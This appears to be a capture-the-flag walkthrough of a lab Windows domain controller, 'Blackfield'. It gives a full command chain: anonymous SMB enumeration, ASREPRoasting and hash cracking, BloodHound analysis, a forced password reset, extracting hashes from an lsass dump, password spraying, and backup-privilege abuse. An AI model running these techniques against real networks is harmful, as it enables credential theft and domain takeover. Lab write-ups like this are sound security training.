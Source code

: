 ___
## Skills covered

- SMB Enumeration (Enumerating users via anonymous login)
- ASREPRoasting (Kerberos Pre-Authentication disabled)
- Lsass Process Dump Analysis
- Using WinRM Privileges
- Abusing Backup Operators Privileges
- Enumerating a domain using Bloodhound
- Use of RPCClient

___
## Enumeration

Begin by running an `nmap` scan of the IP address.
`sudo nmap -sV -p- -A 10.10.10.192`

This scan indicates that port 53 (DNS), 389 (LDAP), and 445 (SMB) are open. The scan results also show the hostname is `DC01` and the related domain is `BLACKFIELD.LOCAL` Because of this, it is highly likely that this server is the domain controller for the `BLACKFIELD.LOCAL` domain.

As SMB port 445 is open, a good next step would to be check for anonymous/guest access, and attempt to map the shares if it is open.
`smbmap -H 10.10.10.192 -u guest`

The result of the `smbmap` scan shows that guest access **is available**. The scan also lists available shares and the associated privilege level. In this case, there are 2 non-default shares that have read access for the guest user - `profiles$` and `forensic`

The command `smbclient -N \\\\10.10.10.192\\profiles$ -c ls` will connect to the SMB service, and run the `ls` command on the `profiles$` share. This will list the files available on the share. After running this command, the output suggests the `profiles$` share contains the user directories for each user on the domain. Use the following command to extract all of these usernames and output them to a text file for later use. 
`smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' > users.txt`

## ASREPRoasting

After extracting a list of usernames from the server, it is a good idea to check for accounts with Kerberos Pre-Authentication disabled. If there are any found, it is possible to extract the password hash, which can then be bruteforced to uncover the user's password.

`GetNPUsers.py` from [Impacket](https://github.com/SecureAuthCorp/impacket) can be used to run this attack. The following command will iterate across the `users.txt` username list extracted from the `profiles$` share and attempt ASREPRoasting automatically.

`python3 GetNPUsers.py blackfield.local/ -no-pass -usersfile /home/kali/users.txt -dc-ip 10.10.10.192`

This will output mostly errors due to accounts not being found, or having pre-authentication enabled. However, the `support` account outputs a hash as seen below. This hash can now be bruteforced using either John or Hashcat and the `rockyou.txt` wordlist.

`$krb5asrep$23$support@BLACKFIELD.LOCAL:185afdd048d3b19c5059d658ff882ffc$fc62d426fa4af49ca9d138c055a69291de98454ae1fc224c5a45f7ef7515eb0ff6a516926957db3a5e1f25c6cfe9c00f5795ad416f369e324a506e2c05521db2541f3f40a040b910ca56af93d74d69b70f21dac55e0186158df78c05cb85e2bde124e467e9e74e850c9b8a1a2aa6ee46ac0b68e31c95b1f49c233876543d09acca6cff3eb1c84f7f5e73f46de443da8729028615087e7eaa0fc0b12fa5e58bbe9ab4fd5f38d0ae95d1da493e07c0c8d91a38e91c5f1f5fd7757786df8f1208c85f0ee9f8d9aee253e7a47bd426476162ac0a2d2ff74604b12113d4aa038fd2062267c576ad00365856948a13af70aaa42a722dcd`

Put this hash into a file, such as `~/hash.txt`. Then crack the hash using `john` and the `rockyou.txt` wordlist. (The wordlist may be compressed, decompress it using `gunzip`)

`john ~/hash.txt -w=/usr/share/wordlists/rockyou.txt`

`john` outputs that the password is `#00^BlackKnight`.

## Enumerating the domain using Bloodhound

If `bloodhound` is not already installed, it can be using:

```
sudo apt-get install bloodhound
pip3 install bloodhound
```

**NOTE:** `bloodhound` and `bloodhound-python` are different packages. Install them both.

Using the freshly extracted credentials, execute the `bloodhound-python` data collector using the following command

`bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c DcOnly`

This will create multiple files:

```
20221124194526_computers.json
20221124194526_domains.json
20221124194526_groups.json
20221124194526_users.json
```

If this is the first launch of `bloodhound`, there are some prerequisites. Run the following commands, and then login to the database Web UI at `https://localhost:7474` using the credentials `neo4j / neo4j`

```
mkdir -p /usr/share/neo4j/logs
touch /usr/share/neo4j/logs/neo4j.log
sudo neo4j start
bloodhound
```

If this is not the first launch, just run `sudo neo4j start` and then `bloodhound`.

Drag and drop the files created by `bloodhound-python` into bloodhound to import the data. Begin analysis by searching for `support` (the account we have compromised) and right click it to mark as owned.

Click 'Raw Query' at the bottom of bloodhound and run the following query to search for objects in the 1st degree (i.e. 1 hop away) that our owned user can control.

`MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p`

This command shows that the owned `support` user can `ForceChangePassword` the `audit2020` user. This privilege can be abused using `rpcclient`.

`rpcclient -U blackfield/support 10.10.10.192`

Once connected, change the `audit2020` user password using the following command:

`setuserinfo audit2020 23 P@s5w0rd`

## Enumerating shares as the next user.

With the new `audit2020` account, new SMB privileges may have been exposed. This can be confirmed by running `smbmap` again as the  `audit2020` account. 

`smbmap -H 10.10.10.192 -u audit2020 -p P@s5w0rd`

`smbmap` shows that this account has read access to the forensic share, which was not available on the `support` account.

Connect to the SMB share with the following commands and `smbclient.py` from Impacket

```
python3 smbclient.py audit2020:'P@s5w0rd'@10.10.10.192
use forensic
```

There is a directory called `memory_analysis` containing a file called `lsass.zip`. At this point, it can be assumed that this is an lsass.exe dump, which will contain password hashes. Download `lsass.zip` using the following commands:

```
cd memory_analysis
ls
get lsass.zip
exit
```

Unzip `lsass.zip` and run [pypykatz](https://github.com/skelsec/pypykatz) on it.

```
pip3 install pypykatz
pypykatz lsa minidump lsass.DMP
```

This will provide a dump of password hashes. Assuming the account lockout policy is 0 (unlimited), a spray attack will allow us to attempt to find a combination of usernames and passwords to login. Lockout Policy can be tested using the following command:

```
ldapsearch -D 'BLACKFIELD\support' -w '#00^BlackKnight' -H "ldap://10.10.10.192" -b "dc=blackfield,dc=local" -s sub "*" | grep lockoutThreshold
```

This should return `lockoutThreshold: 0` if there is no lockout policy. This confirms a password spray attack is possible.

To extract the usernames and hashes from the `lsass.dmp` file, run the following commands:

```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes

pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users
```

Then, to run the spray attack:

```
crackmapexec smb 10.10.10.192 -u users -H hashes
```

The password spray attack should return a hash that can used to attempt an Evil-WinRM session. It is always good to check if WinRM is enabled by using Evil-WinRM because this will immediately provide a shell as that user.

Running `whoami /priv` in this shell will show the users permissions. An important permission to note is `SeBackupPrivilege`. This permission can be abused using `robocopy` to copy the Administrator user folder to the C:/ drive.

```
robocopy /b C:\Users\Administrator\Desktop\ C:\
```